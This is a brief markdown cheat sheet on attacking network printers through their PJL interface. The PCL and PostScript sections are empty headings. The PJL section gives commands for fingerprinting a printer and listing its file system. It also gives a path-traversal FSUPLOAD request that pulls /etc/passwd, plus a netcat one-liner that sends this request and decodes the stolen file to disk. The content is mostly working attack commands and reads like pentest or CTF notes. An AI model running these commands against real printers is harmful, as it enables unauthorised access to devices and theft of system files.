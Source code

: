 # Printer Hacking

The most common languages that printers can use to communicate are PJL, PCL, and PS. Simply open a netcat connection to the printer, and send the commands you want.

## PJL

First, get the status of the printer, and check if PJL is supported.
```PJL
@PJL INFO STATUS
@PJL INFO ID
```

Now list the directory contents. (Maybe not include the "count=65535" part if it doesn't work)
```PJL
@PJL FSDIRLIST NAME="0:/" ENTRY=1 COUNT=65535
```

Now download a file.
```PJL
@PJL FSUPLOAD NAME="0:/../../etc/passwd" OFFSET=0 SIZE=<filesize_here>
```

>Note: It feels like download and upload are switched, but it is from the perspective of the printer.

If the download just prints to terminal (first the command back, then the contents), and it is in base64, use this command in linux terminal.
```bash
echo '@PJL FSUPLOAD NAME="0:/../../etc/passwd" OFFSET=0 SIZE=<filesize_here>' | nc -q 2 <host> <port> | tail -n +2 | base64 -d > outfile
```

> Note: `tail -n +2` starts to read from second line onwards

## PCL

## PS